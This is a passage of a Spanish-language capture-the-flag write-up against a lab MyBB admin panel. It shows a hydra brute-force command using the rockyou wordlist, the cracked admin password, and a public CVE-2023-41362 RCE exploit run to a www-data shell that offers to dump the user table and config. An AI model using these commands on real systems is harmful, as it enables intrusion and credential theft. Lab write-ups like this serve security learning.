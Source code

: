 > Aquí intente logearme pero no pude, mire el writeup de otras personas y esto es un rabbit hole

## Explotación

Con `hydra` pruebo fuerza bruta al panel de autenticación
```shell
hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^:The username and password combination you entered is invalid."
```

Hydra me saco un montón de falsos positivos, es aquí donde probando cada uno de ellos saque la contraseña para **admin**, **babygirl**



![](/assets/img/Anexos/Pasted%20image%2020250408152358-1.png)

Una vez dentro podemos ver la versión. Además hay el propio dashboard nos indica que NO esta en la última versión.

Buscando encontré este exploit:


> https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE

Me lo bajo con `wget` y ejecuto:

```shell
python3 ./exploit.py http://panel.mybb.dl admin babygirl
[*] Logging into http://panel.mybb.dl/admin/ as admin
[*] Template saved!
[*] Testing code exec...
[*] Shell is working
[*] Special commands: exit (quit), remove (removes backdoor), config (prints mybb config), dump (dumps user table)
Enter Command> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Enter Command> 
```
